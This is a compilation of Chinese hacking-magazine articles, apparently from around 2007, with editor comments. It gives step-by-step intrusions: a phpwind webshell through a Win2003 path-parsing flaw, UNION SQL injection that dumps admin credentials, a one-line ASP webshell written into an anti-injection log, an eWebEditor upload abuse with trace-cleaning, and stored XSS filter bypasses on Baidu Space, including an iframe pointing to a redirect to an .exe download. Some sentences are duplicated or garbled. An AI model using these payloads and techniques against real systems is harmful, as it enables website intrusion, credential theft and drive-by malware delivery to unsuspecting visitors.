一个是图片保存目录，默认是 images 目录；还有一个是附件保存目录，默认是 attachment 目录。也就是说，如果我们不修改的话，我们上传的附件也会保存到 attachment 这个目录下面。实际演示一下，我在我个人的站点上临时搭了个 phpwind 论坛，方便截图。

首先我们不修改 attachment 目录名字，那么，你传的附件得到的地址是 http://www.hackby.com/phpwind/attachment/xxxxxx.txt（以传 TXT 来作演示）。这里我们想到了什么？我们无非就是想传个木马上去嘛（小知识提示：WINDOWS2003 存在文件解析路径的漏洞，也就是说，如果文件夹的名字类似于 char.asp 这种情况的时候，那么，在其文件夹下的文本类型的文件可以
下面我们来访问一下看看，如图 4，PHPwind5.3 我们也拿到了 WebShell。

# 后记

此文没有什么技术含量，主要是觉得在入侵中，我们的思路转变是最重要的，当然，此文中拿 WebShell 的方法也是有一定限制的、如果我们拿的这个站点的服务器不是 2003 的呢？可我想大部分的服务器都会用 Win2003 的吧。所以，我们只有在学习中一点点地积累经验，当要用到的时候，开拓思维，把以前学过的知识结合起来，这样，我相信大家都会有一定进步的。欢迎技术交流，我的论坛 ID 是 char。

编辑点评：关于 Win2003 的这个漏洞，在我们以前的杂志中有一篇关于动易漏洞的文章中说过，这里作者是用来拿 PHPWIND 的 SHELL 的，道理是一样的，但是相比动易，这个限制了很多，PHPWIND 跑在 WIN 上的应该没有多少，跑在 Win2003 下的就更少了，PHP 的论坛很多都是架在 LUNIX 系列服务器上的。所以你在按照这篇文章的方法进行测试的时候，如果不成功，不要骂作者哈。

# 脆弱的网愿人才网

月无痕[LST]

- 从本文你可以学到：
1. ASP 注射基础知识
2. 漏洞实践

一转眼已经混过两年了，我也面临着毕业找工作了！经常从一些人才网看看招聘信息，今天刚好看见了一套比较简洁的人才网程序，叫网愿科技人才网系统 V3.0。于是打算看看这些写人才程序的是不是真人才（没办法，谁叫我是人才呢！）！

## 一、理论分析

打开它的源代码随便找了一个名字叫 view_lietou.asp 的文件，看了一下它的代码，就发现了一些问题，代码如下：

```asp
<%
  if request("id")="" then
    ' 月无痕注释如果 request 带入的 id 值为空就弹出下面的对话框
    response.write"<SCRIPT language=JavaScript>alert('对不起，非法操作！');"
    response.write"javascript:window.close();</SCRIPT>"
    response.end
  end if
  sql = "select * from vipjobzp where id="&request("id")
  ' 月无痕注释直接用 request 把 id 值带入 sql 语句进行查询，漏洞产生!
  Set rs_vipzp = Server.CreateObject("ADODB.Recordset")
  rs_vipzp.Open sql,Conn,2,3
  if rs_vipzp.bof and rs_vipzp.eof then
    response.write "暂时还没有悬赏职位"
  else
%> 代码略……


```

很明显的注入漏洞。有了理论的基础我们就去实战一下吧！

## 二、注射实战
大概找了一下，这个文件对应的是“猎头服务”这个栏目，随便找了一个连接点开，在后面加上一个“'”出现了错误页面，如图 1、图 2。
注入初步成功了，我们来看下面的 SQL 语句，发现里面没有包含 order by 这个关键字，那我们先来判断下这个页面都有哪些字段参与了。首先在后面加上 order by 10，http://localhost/jobv3/view_lietou.asp?id=18%20order%20by%2010 返回正常页面，如图 3。

然后在后面再 order by 15，返回错误页面，如图 4。。
证明参与的字段在 10 和 15 之间，那么我们再 order by 14，
返回错误页面，一直 order by 11 后返回了正常的页面，证明这个页面中一共存在 11 个字段，如图 5。
下面我们在地址栏输入 http://localhost/jobv3/view_lietou.asp?id=18%20union%20select%201,2,3,4,5,6,7,8,9,10,11%20from%20admin，返回如图 6。
大家注意看下面页面数字的位置，后面会用到，因为我比较懒，所以就直接跑去看数据库中的列名了。存在 admin 和 password 这 2 个列名，下面我们就在页面上选 2 个字段，这里我把 2 换成 admin，4 换成 password。输入 http://localhost/jobv3/view_lietou.asp?id=18%20union%20select%201,admin,3,password,5,6,7,8,9,10,11%20from%20admin 后返回如图 7。
大家观察下图 7，原本 2 和 4 的位置是不是变成了用户名和 md5 加密的密码？至此我们就已经得到了用户名和密码。
此我们就已经得到了用户名和密码。

## 三、总结

说到后台，我就一肚子的气！这个作者基本上把后台所有关键的地方都换成了图片一样的页面，要想使用后台就必须购买他的商业版，如图 8。

# 爬上许愿墙——防注入系统的利用

那贼

- 从本文你可以学到：
1、新手找漏洞的过程
2、新手成长经历

认识《手册》有一段时间了，文章看了不少，最近听到《手册》两周年的消息，就到网站上看一看，发现多了个许愿墙，立刻许下我的愿望：新的一年我要自己挖掘漏洞，然后给《手册》投稿！没想到愿望这么快就实现啦，到网上搜了一套源码，发现一个比较相似的许愿墙，是小叶白龙许愿墙 v1.3 美化版。

## 一、思路

第一次看源码找漏洞，好多文件啊，不知道从哪下手，随点到 Sqlin.asp，防注入吗？呵呵，就从它下手，打开文件又晕了，如图 1。
一片乱码，哈哈，数据库！为什么这么高兴呢？因为一开始我就看见默认的数据库是 ccc_love.mdb，没想到还有一个，连我都没注意到，那一般的管理员……上网搜了一下，果然是这样（后来看了其他版本，只有这个版本的 2 个数据库是分开的，有点郁闷）。这回有思路了，只要这个数据库里的内容让一般用户可以写入，并且没有过滤，我们就可以写一句话上去喽～
小弟我比较穷，就不搞了，要是哪位朋友有商业版的请共享下，不过我还真是想不明白，从程序上看似乎对注射根本就没做任何防御，真不明白这种程序也敢卖商业版，真是林子大了什么鸟都有！欢迎大家和我交流，我的论坛 ID 是月无痕。

> **编辑点评**：初看这个系统还可以比较牛 X，但是看了下作者分析的一处漏洞，觉得安全性一塌糊涂，该过滤的没有过滤，该检查的没有检查，还拿去卖商业版本，“呵呵”人家卖得掉是人家的本事，我们能找出漏洞是我们的本事。

## 二、探究

先打开数据库看看里面都有什么内容，如图 2。

首先没有发现防下载的表，另外里面有 2 个表，分别记录防注入配置和被尝试注入的信息，信息包括 IP、时间、方式、参数、参数名。这里我们可以控制参数名、参数值，若是从 HTTP 数据包里取得 IP，似乎也可以伪造成一句话（《手册》之前介绍 phpwind 漏洞的文章里有写）。先看看比较容易的参数名吧，这回要真的读代码喽～（之前是乱码……）

```vb
Function StopInjection(values)
    For Each N_Get In values '给 N_Get 赋值
        If values = Request.Form Then
            If Sec_Form_open = 1 Then
                Security_From(values)
            Else
                '查找是否有非法字符,下面定义的函数
                Select_BadChar(values)
            End If
        Else
            Select_BadChar(values)
        End If
    Next
End Function
```

```vb
Function Select_BadChar(values)
    For N_Xh=0 To Ubound(N_Inf)
        '比较参数和数据库里定义的非法字符,大部分都包含了
        If Instr(LCase(values(N_Get)),N_Inf(N_Xh))<>0 Then
            '如果有非法字符调用 InsertInfo()写入数据库
            If WriteSql = 1 Then InsertInfo(values)
            N_Alert(alert_info)
            Response.End
        End If
    Next
End Function
```

```vb
Function InsertInfo(values)
    Dim ip,url,sql
    '这个 ip 可以伪造么,有兴趣可以试试
    ip = Request.ServerVariables("REMOTE_ADDR")
    url = Request.ServerVariables("URL")
    '下面是把信息写到数据库里,N_Get 就是在前面定义并赋值了的参数名,没有过滤~
    sql = "insert into Sqlin(Sqlin_IP,Sqlin_Web,Sqlin_FS,Sqlin_CS,Sqlin_SJ) values('"&ip&"','"&url&"','"&intype(values)&"','"&N_Get&"','"&N_Replace(values(N_Get))&"')"
    response.write sql
    killSqlconn.Execute(sql)
    killSqlconn.close
    Set killSqlconn = Nothing
End Function


```

在 in.asp 里的这段代码是先判断提交数据有没有非法字符，如果有就把之前提到的信息写到防注入数据库里也就是 Sqlin。
asp，然后再输出一些吓人的话，图 3，要注意的是参数名 N_Get 没有任何过滤就直接写到数据库里喽~

## 三、测试

现在要找一个包含 in.asp 的页面，这里有 input.asp 和 test.asp。input.asp 测试起来比较麻烦，这里我用 test.asp（看名字就是用来测试的，作者怎么把草稿也发上来了……），思路是要把参数名设为我们的一句话，还要有非法字符才能写进数据库，这里就用最经典的单引号，组合以后成了 test.asp?<%execute request("value")%>='，打开页面有警告提示，说明成功写到 Sqlin.asp，可是用 upshell.htm 连接却不成功，打开数据库看看，如图 4，一句话成了 <execute request("value")>。

怎么个情况，没看见有过滤的语句啊，而且怎么只过滤 %，一边想一边翻手册，暴库！恍然大悟，原来是因为 % 转义字符（表...
说我菜~），就像暴库用到的 %5c，这里我们需要把 % 换成 %25，我们再提交 test.asp?<%25execute request("value")%25>=1'，连接，成功拿到 webshell，如图 5。
## 四、总结

似乎文章的最后要说下修补，下修补，这个文件名就好了，在这里提醒各位站长如果数据库没有防下载处理最后不要把数据库文件改成 asp 或者 asa 的，否则反而更容易被拿到 webshell，防下载的话就在数据库里建个表写进 <% loop <%，我想了很久也没能闭合这个语句让 asp 文件顺利运行，有没有牛人指点下。最后祝《手册》越办越好，祝《手册》的读者天天快乐~

# 编辑点评：

总的来说，文章的技术含量不是很高，按照规定，这样的文章一般是不会刊登的，但是作者是个新手，第一次独立分析出漏洞，完成文章，还是很不错的。回想当年自己第一次分析漏洞，是何等的高兴，在这里刊登这篇文章，是对作者的肯定，希望作者再接再厉。也希望越来越多的朋友加入到找漏洞的行列中来。

## 学习 ewebeditor, 易心 bolg 后台轻取 webshell

心飞扬

## 从本文中你可以学到：

- 1、Ewebeditor 上传利用
2、易心 bolg 后台拿 Webshell

07 年第 2 期 nohack 上 hackLu 分析的一篇有关易心 blog 的漏洞，使我收益匪浅，但文中并未道出在后台如何拿 webshell，所以小菜在此补下：）

登录后台后（在此补充下：管理员账号的列名是 ad_name），在左侧的面板中找到“修改我的资料”，如图 1 所示。

然后看右侧页面的底部，如图 2，想到了什么？对，ewebeditor！还等什么？添加类型！不过 asp 是不行的，看来程序作了限制。没关系，加个 asa 就 ok。

那么上传的地方在哪呢？呵呵，在左侧找到“设定默认模板|添加”，单击“添加”后，右侧页面如图 3 所示。
这里有记录

在这里

再去“上传文件管理”把它 K 掉就可以了。
实际上，在上传这块应该是还有漏洞的。当你上传一个不允许的类型时，它会迅速弹出框框，应该是本地验证。可惜小弟不才，没能利用这个漏洞，还望高手突破吧！
单击第一行最后一个按钮，就可以大摇大摆地上传我们的马儿了！传完之后，单击下面的“HTML”就可以看到我们马儿的文件名了！

不过在传完后，要记得清理战场！在图 2 的地方把 asa 删掉，还没完呢~ 看看图 1，有个“上传文件管理”，那里记录着上传的文件。怎么办呢？简单！登录上我们的马儿后，找到马儿的文件，改下名。如果刷新后显示“该页无法显示”，说明你的修改成功了，再去“上传文件管理”把它 K 掉就可以了。

# 编辑点评：

上期 hackLu 的那篇分析易心博客的文章，最后留下一个问题就是在后台如何取得 WebShell，作者正好是利用其中的 ewebeditor，得到了 WebShell。如果你对我们刊登的文章有什么要补充的，都欢迎来稿。

# 挖出百度空间的 XSS 漏洞

寂寞的刺猬[L.S.T]

> 老C独语: 当兴趣来了的时候,你自然而然就会有技术的狂热追求;当你的狂热追求终成为职业,你会对这一日复一日的职业热情持续多久呢?如果选择网络安全这一行业,个人感觉真的很累。不过,幸好五一长假到了,悠闲几天,随手翻阅《黑手》杂志,看看本栏目的几篇文章,我想也是一种惬意的享受,不过干成可别缀发rpc蠕虫呀,听说又要来一拨了……

**从本文中你可以学到:**
作者的跨站漏洞挖掘思路、方法及其收集整理和归纳的 XSS 代码

偶的小窝搬到“百度空间”也一月有余了,在当初入住时,看到百度允许用户自己创建 CSS 样式表,首先想到的就是 XSS 漏洞,但偶一则不懂 CSS 代码,二则没有时间,也就没有深入研究。这两天正好无事,就恶补了一些 CSS 知识,在欣赏其他的空间时,无意中看到了 Monyer 的“梦之光芒”,发现这里汇集了其对百度空间 XSS 漏洞的研究成果,看完后受益匪浅。接着又到“加糖苦咖啡”(另一个介绍百度 XSS 漏洞的空间)中学习了一番,最后总结出 N 条插入 XSS 代码的方法,如下:

- 1、脚本插入

(1)插入 JavaScript 和 VBScript 正常字符。

```
例 1: 
例 2: <table background="javascript:alert(/xss/)"></table>
'/在表格中加入脚本
例 3: 
```

- (2)转换字符类型。

将 javascript 或 vbscript 中的任一个或全部字符转换为十进制或是十六进制字符。

```
例 1:  '/ 将 j 字符转为十进制字符&#106;;
例 2:  '/ 将 j 字符转为十六进制字符&#x6A;;
```

- (3)插入混淆字符。

在系统控制字符中,除了头部的 &#00 (null)和尾部的 &#127(del)外,其他31个字符均可作为混淆字符,比如 &#01、&#02 等字符都可插入到 javascript 或 vbscript 的头部,其中 Tab 符 &#9、换行符 &#10、回车符 &#13 还可以插到代码中任意地方。

```
例 1:  '/ 插入到代码头部。
例 2:  '/ 插入到代码中任意位置。
```

- 2、样式表

(1)利用 CSS 代码 @import、expression 触发 XSS 漏洞。

```
例 1: @import "http://web/xss.css"; ' 导入外部带有 XSS 代码的 CSS 样式表。
例 2: @import'javascript:alert("XSS")'; ' 调用 javascript 脚本触发漏洞
例 3: body{xss:expression(alert('xss'))} ' 在内部样式表中加入 expression 事件
例 4:  ' 在内联样式表中加入 expression 事件
```

(2)在 CSS 代码中加入 javascript 和 vbscript 脚本

```
例 1: body{background-image:url(javascript:alert("xss"))}
例 2: body{background-image:url(vbscript:msgbox("xss"))}
```

(3)转换字符类型,以十六进制字符替换其中或全部的字符:

```
例 1: @\0069mport:url(web/1.css); '// 将其中的 i 转为 \0069
例 2: body{xss:\0065xpression(alert('xss'))} '// 将其中的 e 转换为 \0065
例 3: body{background-image:\0075\0072\006c\......} ' 将其后的 url(脚本)全转为 16 进制。
```

(4)插入混淆字符,在 CSS 中,/**/是注释字符,除了/**/外,字符“\”和结束符“\0”也是被忽略的,可以用这些来混淆字符。

```
例 1: @\0im\port'\0ja\vasc\ript:alert("XSS")';
例 2: @\i\0m\00p\000o\0000r\00000t"url";
例 3: body{xss:ex/*无效字符*/pres/*xss*/sion(alert('xss'))}
例 4: 


```

大致的方法就是这些,在将这些方法总结出来的同时,也一并对百度空间进行了测试,测试的结果如下:

- 1、“javascript”、“vbscript”、“import”、“espression”、“cookie”等一些敏感字符被过滤成空格。
2、脚本转换字符所用到的“&#”这两个字符,只要是连在一起提交,也会被过滤为空格。
3、样式表中的注释字符“/**/”和“\”被过滤为空格。
4、TAB 空格、空格、双引号、单引号被过滤为空格。
5、类似“javajavascriptscript”字符会原样不动地提交进数据库中。

我花费了一上午的时间逐一测试,结果却未有一例成功!但当我再次浏览 Monyer 空间中的一个网页时,却弹出了一个 XSS 提示窗口,该处的网页源码是: ``。

我看到这个提示窗口,很是郁闷,为什么我写的数据被过滤了呢?后来才想明白,原来百度空间管进不管出,当出现 XSS 漏洞后,工程师就增加新的过滤条件,但这些代码只过滤新写入的数据,对那些已经写入进数据库的 XSS 代码,在输出时,百度却一路绿灯,哪儿有洞补哪儿,好像不是一个有效的方法。但就是因为当时的这个疑惑,才让我不停地去测试,去改变思路,在耗费了偶 N 个小时的时间后,终于挖出了百度空间的 XSS 漏洞。

## 一、以其之矛,攻其之盾

记得剑心曾在 LoveShell.net 上贴过一些跨站方面的文章,便又踩了一遍。其文章中所提到的使用“&#”字符转换代码,已经不适用于此了,但在后面介绍的 JavaScript 事件中,好像在 Monyer 的空间中没有提到(或是我没有看到)。先用一段最基本的代码进行测试,代码是: `` ,利用捕捉错误的事件 Onerror 来触发 XSS 代码。在写入代码前,先发一篇带图片的日志,图片的地址是“jmdcw”,地址是故意写错的,这样才能发挥 onerror 的作用。发表成功后,进入编辑状态,在点击“修改”之前用 Winsock 监听当前页,然后点击“修改”所抓取到的就是当前修改日志时所提交的数据了,经过分析,图片链接处的提交代码是:“%3Cimg+border%3D%220%22+small%3D%220%22+class%3D%22blogimg%22+alt%3D%22%22+src%3D%22jmdcw%22+%2F%3E”。转换为正常字符是:“”。

将上面的“onerror”语句中的“src="jmdcw" onerror=alert(/xss/)”用 Monyer 的加密工具进行 Escape 转换，然后再将转换后的代码：“src%3D%22jmdcw%22%20onerror%3Dalert%28/xss/%29”替换数据包中的“src%3D%22jmdcw%22”，最后把修改后的数据及抓取到的 Cookie、Host、Post、Refer 等内容分别填入偶的 POST 提交工具中，如图 1 所示。点击“测试”后，没有看到任何延迟，就提交完成了，速度之快让人不敢相信！
但刷新该日志却未弹出任何提示，点右键查看网页源码，发现该处的代码是:“<imgborder="0" small="0" class="blogimg" src="jmdcw" >”，在“>”之前多了一个空格，这种情形和我前面测试“javascript”等代码时所遇到的情形是一样的。看来 onerror 也被过滤了，不过 javascript 的事件有 80 多种，不可能都被过滤了吧？将 onerror 更改为其他的事件名称，但试了 N 多，在源码中所见到的均是一个空格！难道都被过滤了？该不是我的提交内容有错吧！在提交字符 onerror 中加了一个数字“1”，改为 on1error 进行提交，结果看到的源码如图 2，on1error 成功写入，这说明不是我的方法出错，而是 Javascript 的这些事件已经被列入黑名单。

为什么将 onerror 改为一个不存在的名称就可以写入，这是不是说明百度空间把这些已知的事件名称都集合在一个数组中，用户提交的数据在进入数据库之前都会由这个数组进行验证，凡属于名单之列的，则将其所附带的代码一并过滤成一个空格。如果将 onerror 改为 oneroneronerror，是否会将其中的 onerror 过滤呢？结果和前面测试 JavaScript 的效果一样，oneroneronerror 原样不变地给返了回来！看来只有 onerror 前面有空格才会被过滤，那么将 onerror 前面的空格(%20)去除，直接和“jmdcw”后的“%22”进行连接，是不是程序会将 %22onerror 认为是一个字串呢？结果提交后，onerror 仍被过滤掉了！这种方法不行，对了，空格的 HTML 代码 &nbsp;是否可行呢？将其转换为“%26nbsp%3B”字串加在 onerror 之前，结果 onerror 又被过滤掉了，并且连字符“jmdcw”后的空格也没有了，这次过滤得更彻底。除了“&nbsp;”外，“/**/”还可以代替空格，将其放在 onerror 前进行测试，结果仍不乐观，“/**/”和 onerror 一起被过滤了，看来进入的是条死胡同！

在 Monyer 的日志中看到这样一句话：“标签属性可以用双引号，可以用单引号，也可以不用引号”，如果我们将 src 后的双引号去掉，代码是否一样会执行呢？在本地测试了一下，可以运行。将提交的代码改为：“src%3Djmdcw/**/onerror%3Dalert%28/xss/%29”，但刷新后仍没有弹出窗口，查找该处的源码是：“src=jmdcw/**/onerror=alert(/xss/)”，onerror 及 /**/ 都没有被过滤，但却没有成功。将此段放入本地中测试，果然不能弹出窗口，WHY？
刚才本地测试是可以弹出窗口的！仔细对比了一下代码，原来本地的 jmdcw 与 /**/ 之间有一个空格，而我所提交的代码中没有空格，晕死了，/**/ 在去掉引号后，就不能当成空格来用了！只能起到混淆 onerror 字符的作用！加入空格，还不简单，但分别将+、%20 和 %26nbsp%3B 加入，结果不是 onerror 全部被过滤，就是代码不能执行。怎样才能在 /**/onerror 前加入一个空格呢？空格？我忽然想起在最初测试时，程序会将一些特殊字符过滤为空格，比如单引号(')、双引号(")、反斜杠(\)等字符均被过滤成了空格！如果用其中一个字符加在 /**/onerror 前，不就在 /**/onerror 前得到一个空格了？先试一下反斜杠(\)，将其直接加在 /**/onerror 前面提交，再次刷新的结果如图 3，XSS 漏洞终于出现了。

那么漏洞的形成是因为“/**/”的介入，还是“\”的参与？二者缺一不可吗？在 onerror 前直接加入“\”进行测试，结果仍能弹出窗口，说明漏洞的形成跟“/**/”没有关系。接着又测试了单引号和双引号，均能弹出提示窗口。既然在 Onerror 前加入一个特殊字符可以绕过，那么在 javascript 前加入此类字符，是否也能在源码内找到 javascript 字符呢？结果只看到了 alert 等字符，javascript 字符被过滤了。这样看来，百度的过滤流程是先过滤 onerror 等事件字符，再过滤单引号等特殊字符，最后过滤 javascript 脚本字符，这种过滤方法和 2006 年动网头像跨站一样，先后顺序搞混了，犯了一个以其之矛、攻其之盾的逻辑错误。呵呵，想不到百度的工程师也有糊涂的时候。

XSS 漏洞找到了，下面就来测试一些其他的代码（声明一下，本人最反感用 XSS 漏洞挂马，但一些技术还要共享出来，希望对程序员过滤 XSS 漏洞有所帮助）。前面测试的是弹出一个提示窗口，下面再利用 XSS 弹出一个指定页面，也就是说，当打开带有 XSS 代码页面的时候，另一个页面也会跟着打开！加载到 onerror 事件中的代码是 onerror=window.open("http://www.nohack.cn")，其中的“http://www.nohack.cn”是要打开的网页。先将这段字符中的双引号用“&quot;”代替。然后再进行转换，加密后的代码如下:“onerror%3Dwindow.open%28%26quot%3Bhttp%3A//www.nohack.cn%26quot%3B%29”。用这段代码替换 POST 提交工具中的 alert 代码。再次刷新，Nohack.cn 的首页“噌”地就弹了出来！

这种方法虽然简单，但太过明显，要想隐藏一些就用“iframe”吧，这个是框架语句，它可以将一个网页内嵌于当前页面中，其相关代码是：onerror="document.write('<iframe frameborder=0 width=100 height=100 scrolling=no src=http://www.nohack.cn></iframe>')"和前面一样，先将其中的一些字符进行替换，因为单引号被过滤，所以将其用双引号的 HTML 代码“&quot;”替换，而“<”则用“&lt;”代替，“>”用“&gt;”替换。然后再把替换后的代码进行 Escape 转换，转换后的代码如下：

```text
onerror%3D%22document.write%28%26quot%3B%26lt%3Biframe%20frameborder%3D0%20width%3D100%20height%3D100%20scrolling%3Dno%20src%3Dhttp%3A//www.nohack.cn%26gt%3B%26lt%3B/iframe%26gt%3B%26quot%29%22
```

将这些代码替换上次的“window.open”代码。但刷新后却没有看到效果，？？怎么回事？查找此处源码如下:``  
- B、unicode `<div style="{ left:exp R essio N( alert('xss') ) }">`

貌似两者突破的方法都是全角字符，所不同的是大小写而已。先不论大小，只要能突破就是好方法！下面是一个最简单的测试语句：

```text

```

转换后的代码是：

```text
img%20src%3D%22jmdcw%22%20style%3D%22left%3Aexpression%28alert%28/jmdcw/%29%29%22
```

将其中的 expression 改为 expression，（其中的 e 是全角字符），然后将这些数据替换前面在 onerror 测试时的 img 数据，如图 4 所示，待提交完成后，刷新该日志页，如图 5 一样，百度的一个 XSS 漏洞现身了！但这个 XSS 漏洞有个特点，只要鼠标经过日志页面，或是在页面上稍微一动，就会弹出一个提示窗口，CSS 样式表就是与众不同，连 XSS 漏洞都别具一格。

如果将 expression 后的 alert 语句改为："window.open(&quot;http://www.nohack.cn&quot;);"，所出现的效果和利用 onerror 事件的效果是一样的，但不同之处是样式表中的 XSS 漏洞会弹出大量的窗口。测试到这儿，我忽然想起刚来百度空间的时候，总会礼貌性的回访一下其他人的空间，但其中却有几个空间在打开后，不停地弹出其首页，害得我 IE 崩溃了好几次！当时还以为是自己不小心压到了键盘中的某个键，现在想想，这些空间一定是在 CSS 样式表中加入了弹出窗口的 XSS 代码，虽然百度修补了写入漏洞，但输出那一关却没有设防，如果百度在网页显示时加入一些过滤，那些隐藏在百度空间中的恶意代码就不会兴风作浪了。

在 onerror 测试中，因为提交的内容被程序认为是 src 的一个字串，所以 iframe 的效果就没有展示出来，但这次的 src 和 style 分别有各自的属性，在 iframe 利用上应该会有突破！先将 onerror 中的 iframe 代码复制进 expression 中，所构造的测试代码如下：

```text
style="left:expression(document.write('<iframe frameborder=0 width=100 height=100 scrolling=no src=http://www.nohack.cn></iframe>'))"
```

同样先将其中的单引号用 "&quot;" 进行代替，"<" 用 "&lt;" 替换，">" 用 "&gt;" 替换。然后再用 Escape 加密，加密后的代码如下：

```text
style%3D%22left%3Aexpression%28document.write%28%26quot%3B%26lt%3Biframe%20frameborder%3D0%20width%3D100%20height%3D100%20scrolling%3Dno%20src%3Dhttp%3A//www.nohack.cn%26gt%3B%26lt%3B/iframe%26gt%3B%26quot%3B%29%29%22
```

将这段代码替换提交内容中所属 style 的内容，在提交之前，不要忘了将 expression 中的 e 替换为全角字符 e，完成提交后，刷新当前日志，如图 6，《黑客手册》虽然成功内嵌于当前页面中，但其他的内容却看不到了，怎样解决这个问题呢？上次在动网博客 XSS 漏洞利用中，用到的是 "document.body.innerHTML" 代码，但这个方法只能显示大部分网页中的内容，并且在测试后发现，在此处使用 InnerHtml 代码虽能成功，但会弹出一个错误提示。看来将 iframe 内嵌于页面中的方法还需要改进。在查询了一些内容后，发现了一个 "insertAdjacentHTML" 代码，该代码是将 HTML 代码插入到指定的位置。

此代码的格式是：

```text
document.body.insertAdjacentHTML("afterBegin", "HTML代码")


```

有两个参数。第一个 "afterBegin" 是 HTML 代码要插入的位置；第二个 "HTML 代码" 是要插入的内容。无需介绍，简单说一下第一个参数，这个参数有四个变量，它们的名称及位置是这样的：

- "beforeBegin" 在开始标记前 `<div id=test (开始标记)>`
- "afterBegin" 在开始标记后 该标记中显示的文字
- "beforeEnd" 在结束标记前 `</div> (结束标记)`
- "afterEnd" 在结束标记后

。看明白没有？下面看一段代码理解一下，这是一段用 insertAdjacentHTML 将 iframe 代码插入到开始标记后的代码，如下：

# 三、无处不在的 XSS

用“style”构造的内嵌样式表所触发的 XSS 漏洞仅局限于一个日志之中，但百度为了让每个用户都设计出自己的风格，特意提供了一个创建 CSS 模版的平台，在这个平台之中，用户可以创建自己的 CSS 模版，因为是模版，所以会应用到自己的每个版块中。根据上面的 expression 突破方法，将以下代码添加到另一个测试空间中的 CSS 模版尾部：`body {left: expression(document.body.insertAdjacentHTML("afterbegin", "<iframe width=200 height=50 src=http://www.baidu.com></iframe>"))}`。

在 CSS 样式表中，双引号及 <> 字符就不用转换了，只需要将 expression 中的任一个字符改为全角就可以了。在保存后，应用此模板的效果如图 8，现在空间内的任一页面的头部都会显示出百度的网页，不论来访者进入的是哪个版块，打开的是哪个日志，哪怕打开的是用户资料页，都会触发 XSS 漏洞，这种无处不在的 XSS 才是样式表中的最大危害！
不论是 XSS 漏洞，还是其它漏洞，它们都是一把双刃剑，就看你怎么用了。但是，总有一些别有用心的人利用漏洞搞一些小动作，所以，在截稿之前，偶已将此漏洞通知了百度空间的 Du 掌柜，相信此 XSS 漏洞不久就会被修补，我可不希望和偶同在一个屋檐下的朋友饱受 XSS 迫害之苦。

# 附：在 Onerror 中加入隐藏 Iframe 的方法

本以为在 Onerror 中无法加入隐藏的 iframe 了，但在翻阅以前的文档时，看到了“eval”和“String.fromCharCode”。eval()函数可以把一个字符串当作一个 JavaScript 表达式去执行；而 String.fromCharCode 方法则是把 ASCII 值转换为一个字符串。这二者结合，是否会有突破呢？

先用弹出窗口代码进行测试，将代码 “alert('jmdcw')” 用 Monyer 的加密工具进行十进制加密，加密后的 ASCII 值如下：“97, 108, 101, 114, 116, 40, 39, 106, 109, 100, 99, 119, 39, 41”，然后将这些数值放置进 “String.fromCharCode” 中，构造出一个新的 onerror 语句：“onerror=eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 106, 109, 100, 99, 119, 39, 41))”。接下来再进行 Escape 加密，加密后的字符串是：“onerror%3Deval%28String.fromCharCode%2897%2C108%2C101%2C114%2C116%2C40%2C39%2C106%2C109%2C100%2C99%2C119%2C39%2C41%29%29”。OK，将这个字符串代替前面测试时的 onerror 语句。提交后，刷新日志，百度空间很是配合，测试成功。

看来成功的希望很高！将前面样式表中的 iframe 语句：“`document.body.insertAdjacentHTML('afterbegin', '<iframe width=200 height=200 src=http://www.baidu.com></iframe>')`” 进行十进制加密，然后再将加密后的结果进行 Escape 加密，由于字符过多，这里就不列出了。最后用得到的加密字符串替换前面的 Alert 加密字符，提交后，刷新日志，却未看到 iframe 窗口，Why？查看当前页面源码，发现 onerror 语句不见了，只剩下 “src=jmdcw”，真是怪了，在前面测试 alert 语句时，我还特意查看了一下源码，如图 9。但为什么将语句更改为 iframe 后，就消失了呢？难道在我测试的过程中，百度进行了修复？不会吧？再次把 Alert 语句进行提交，依然可以弹出窗口，看来没有被修复！莫非是 onerror 后所附的字符过多了？在可以弹出窗口的 alert 语句中增加 “alert('jmdcw')” 转换字符，当增加到第十个的时候，不再弹出窗口，而源码内的 onerror 语句也消失了。在第九个的基础上又加了一些字符，最后得到一串临界字符，用这串字符同 iframe 语句进行了对比，发现 iframe 语句比该串串多出一些字符，将这些多出的字符转换为正常字符，一共有 8 个！看来还真是字符过多的原因！如何从语句中精简出 8 个字符呢？就算将 width 宽和高都设为 0，才减少了 4 个字符，还有 4 个字符无着落。既然这样，不如将 width（宽度）去除，因为 iframe 是加在页面的最上方，只要将高度设为 0，即便宽度采取了默认值，也不会影响页面的布局。精简后的代码如下：“`document.body.insertAdjacentHTML('afterbegin', '<iframe height=99 src=http://www.baidu.com></iframe>')`”。将该语句进行十进制及 Escape 加密，然后用加密后的语句替换原来的语句，提交后刷新日志，如图 10，iframe 框架终于落户到 onerror 中了。
但实际的 src 值要长得多，比如 “http://26.duote.com/qq.exe”，又该怎样精简字符呢？偶想到了二级域名！用其域名转向或许可行？于是在希网(www.3322.org)申请了一个账号，将新建的域名 “jm.go.3322.org” 指向了地址：“http://26.duote.com/qq.exe”。接着把测试代码：“`document.body.insertAdjacent`
`HTML('afterbegin','<iframe height=0 src=http://jm.go.3322.org></iframe>')`” 进行两次加密，最后将加密后的代码替换 POST 提交工具中的对应内容，完成后的效果如图 11，

呵呵！问题终于解决了。
[文章里用到的提交工具及 monky 加密代码.htm 已收录在本期光盘中]

> 编辑点评：这应当是我看到的在技术、和写作流程上数一数二的一篇跨站文章了。作者在文章中先是收集 XSS 代码，然后测试百度，找到过滤条件，再结合自己的思考给出相应办法。在解决的同时，清晰地写出了自己的思路。同时，也并不限于网上流传的现有的几种 iFAME 代码加裁办法，而是翻阅资料又找到了 insertAdjacentHTML 这个函数。如果小菜也照这样的一个流程去做，我相信你也会发现一些同样的跨站漏洞。我在这里再给文章补充几句，作者用到的是``这样的语句来加载样式表，页面上难免会有个图像显示不了的红 x，不如改为`<a stlye= `或`<b style `等等。这里我又想到了取近的 ms07017 的 ani 网马，估计很多小菜会为`<iframe width=0 heigth=0>`去加载插入网站里，那是不会有效果的，因为这是鼠标指针漏洞，框架为 0 了，鼠标指针自然指不到框架里了。再多说点题外话，在一个面向用户的客户端 web 程序里引入 xss 语句或 html 语句，网上考虑得较多的是 js，但也由一些别的，像`<object style="border:0px" type="text/x-scriptlet" data="import.htm" width=30 height=30></object>` 或者 `<xml id="users" src="users.xml"></xml>`，不知这些效果会怎么样呢？

# 记一次对国之源教育软件网站的安全检测

elin

## 从本文中你可以学到：

- 综合入侵思想
- web 提权

## 一、起因

